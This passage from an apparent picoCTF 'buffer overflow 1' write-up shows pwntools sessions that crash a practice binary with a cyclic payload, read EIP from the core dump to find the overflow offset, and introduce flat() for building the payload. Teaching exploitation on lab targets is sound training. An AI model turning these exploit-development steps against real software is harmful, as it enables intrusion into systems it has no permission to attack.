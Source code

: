 We can then generate a `cyclic()` payload and start a local process referencing the aforementioned `elf` object. Sending the payload and using the [`.wait()`](https://www.educba.com/python-wait/) method will throw an exit code -11, which signals a segmentation fault and generates a core dump. 

{% ccb terminal:true html:true wrapped:true %}
<span class="meta prompt_">>>></span> p = process(elf.path)
[<span style="color:#9755B3">x</span>] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln'
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln': pid 2219
<span class="meta prompt_">>>></span> p.sendline(cyclic(128))
<span class="meta prompt_">>>></span> p.wait()
[<span style="color:#277FFF"><b>*</b></span>] Process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 2219)
<span class="meta prompt_">>>></span> exit()
<span class="meta prompt_">$ </span>ls -al
total 2304
drwxr-xr-x  3 kali kali    4096 Jun 16 15:35 <span style="color:#277FFF"><b>.</b></span>
drwxr-xr-x 16 kali kali    4096 Jun 14 17:13 <span style="color:#277FFF"><b>..</b></span>
-rw-------  1 kali kali 2588672 Jun 16 15:35 core
-rw-r--r--  1 kali kali     358 Jun 16 03:22 buffer-overflow-1.py
-rwxr-xr-x  1 kali kali   15704 Mar 15 02:45 <span style="color:#47D4B9"><b>vuln</b></span>
-rw-r--r--  1 kali kali     769 Mar 15 02:45 vuln.c
{% endccb %}

We can now create a corefile object and freely reference registers! To find the offset, we can simply call the object key within `cyclic_find()`.

{% ccb terminal:true html:true wrapped:true %}
<span class="meta prompt_">>>></span> core = Corefile('./core')
[<span style="color:#9755B3">x</span>] Parsing corefile...
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/buffer-overflow-1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xff93abe0
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' (0x8048000)
    Fault:     0x6161616c
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
<span class="meta prompt_">>>></span> core.registers
{'eax': 65, 'ebp': 1633771883, 'ebx': 1633771882, 'ecx': 65, 'edi': 134516960, 'edx': 4294967295, 'eflags': 66178, 'eip': 1633771884, 'esi': 1, 'esp': 4287867872, 'orig_eax': 4294967295, 'xcs': 35, 'xds': 43, 'xes': 43, 'xfs': 0, 'xgs': 99, 'xss': 43}
<span class="meta prompt_">>>></span> hex(core.eip)
'0x6161616c'
{% endccb %}

Now that we know how ELF objects and core dumps work, let's apply them to our previous script. Another cool helper I would like to implement is [`flat()`](https://docs.pwntools.com/en/stable/util/packing.html) (which has a great tutorial [here](https://www.youtube.com/watch?v=AMDbbuLaXfk), referred to by the legacy alias `fit()`), which flattens arguments given in lists, tuples, or dictionaries into a string with `pack()`. This will help us assemble our payload without needing to concatenate seemingly random strings of `A`s and little-endian addresses, increasing readability.
